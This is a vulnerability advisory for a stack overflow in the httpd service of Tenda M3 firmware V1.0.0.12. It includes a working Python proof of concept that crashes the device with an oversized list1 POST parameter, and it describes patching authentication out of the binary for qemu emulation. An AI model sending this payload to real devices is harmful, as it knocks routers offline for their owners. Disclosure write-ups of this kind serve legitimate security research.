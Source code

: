 ## Overview

- The device's official website: https://www.tenda.com.cn/product/M3.html
- Firmware download website: https://www.tenda.com.cn/download/detail-3133.html

## Affected version

V1.0.0.12(4856)

## Vulnerability details

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `fromDhcpListClient` function, which can be accessed via the URL `goform/DhcpListClient`

<img src="img/image-20220527160225007.png" alt="image-20220527160225007" style="zoom:50%;" />

The POST parameter `listN` is concatenated. The program copies the POST argument without checking the length. We can set `LISTEN` equal to `1`, the program will enter the red box, causing a stack overflow. Since the overflow overrides the `LISTEN` pointer variable, the `atoi` function will crash the program, causing a DOS attack in the second time looping.

## PoC

Poc of Denial of Service(DoS)

```python
import requests

data = {
    b"LISTLEN": b"1",
    b"list1": b'A'*0x300,
    b"page": b'A'
}
cookies = {
    b"user": "admin"
}
res = requests.post("http://127.0.0.1/goform/DhcpListClient", data=data, cookies=cookies)
print(res.content)
```

<img src="img/image-20220527161342657.png" alt="image-20220527161342657" style="zoom: 50%;" />

I use qemu-arm to emulate it. To make it work, I patched the `httpd` binary:

- In the `main` function, The `ConnectCfm` function didn't work properly, so I patched it to `NOP`.

- The `R7WebsSecurityHandler` function is used for permission control, and I've modified it to access URLs that can only be accessed after login.

In the main function, the program call the `check_network` function to get the IP address of the `br0` interafce and use it as the listening address. So I create a iterface named `br0` and configure its IP address to `127.0.0.1` .



